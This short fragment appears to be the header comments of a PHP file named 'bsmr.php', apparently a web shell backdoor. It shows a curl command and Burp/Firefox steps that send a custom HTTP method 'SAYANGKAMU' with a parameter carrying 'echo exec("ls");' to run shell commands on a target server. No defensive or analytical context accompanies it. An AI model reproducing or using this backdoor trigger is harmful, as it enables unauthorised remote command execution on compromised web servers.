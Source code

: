 # bsmr.php
        // using 
       // curl -X SAYANGKAMU ssl://url.domain/path/filename.ext  -d 'SayangKamu=echo exec("ls");' 
      // FireFox ( using burp/ another change request get/post to SAYANGKAMU and add params SayangKamu=echo exec("ls"); 
